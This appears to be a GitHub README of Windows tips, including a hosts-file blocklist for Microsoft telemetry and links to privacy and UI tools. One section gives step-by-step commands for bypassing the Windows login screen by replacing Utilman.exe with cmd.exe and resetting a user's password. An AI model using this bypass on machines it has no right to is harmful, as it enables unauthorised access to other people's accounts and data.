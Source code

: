 # Windows Tricks
Guide on certain things Windows

![Wondows-11-Start-661424496](https://github.com/martinjrrr/windows-tricks/assets/91160845/ba9bde7e-cc04-427b-af04-5b11bc566f03)

_______________________________________________________________________________

# Cracking a windows password / bypassing the login screen

Boot Into Your Flash Drive And Type These Commands

`fdisk -l`

`mount -t ntfs /dev/(windows drive) /mnt`

`cd /mnt/Windows/System32`

`cp cmd.exe Utilman.exe`

reboot

Click On The Accesibility Button And Type This Command When The CMD Window Lauches

`net user (User) *` 

## If you try to mount the Windows drive and get an error of hibernation just use the command:

`sudo ntfsfix /dev/sdXY`

ITS POSSIBLE THAT THIS COMMAND CORRUPTS THE WINDOWS FILESYSTEM, KNOW THE POSSIBLE CONSEQUENCES BEFOREHAND 
________________________________________________________________________________

# Anti-Spyware Tool

https://www.oo-software.com/de/shutup10

Kill Spyware and unnecesary bloat in Windows using this utility

make sure that you read trough your selections, this tool can temporarily block key system functions / settings

________________________________________________________________________________

# Host file sinkholing Spyware

    127.0.0.1 localhost
    ::1 localhost
    127.0.0.1 data.microsoft.com
    127.0.0.1 msftconnecttest.com
    127.0.0.1 azureedge.net
    127.0.0.1 activity.windows.com
    127.0.0.1 bingapis.com
    127.0.0.1 msedge.net
    127.0.0.1 assets.msn.com
    127.0.0.1 scorecardresearch.com
    127.0.0.1 edge.microsoft.com
    127.0.0.1 data.msn.com


# Windows 10 Functionality and Patches for Windows 11

[Explorer Patcher](https://github.com/valinet/ExplorerPatcher)
